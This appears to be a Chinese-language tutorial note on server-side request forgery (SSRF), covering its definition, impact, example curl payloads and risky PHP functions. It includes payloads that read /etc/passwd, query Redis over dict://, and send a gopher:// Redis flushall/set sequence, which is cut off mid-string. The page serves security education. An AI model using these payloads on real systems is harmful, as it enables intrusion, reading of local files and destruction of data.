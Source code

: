 ```yaml
---

title: ssrf

date: 2023-12-26 02:01:50

tags:

---
```


# SSRF



[TOC]

## 简介

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。



### 漏洞危害

SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

## 利用方式

SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的利用和绕过方式。

以curl为例, 可以使用dict协议操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

```bash
curl -vvv 'dict://127.0.0.1:6379/info'

curl -vvv 'file:///etc/passwd'

# * 注意: 链接使用单引号，避免$变量问题

curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%
```

## 相关危险函数

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 `file_get_contents()` / `fsockopen()` / `curl_exec()` 等。

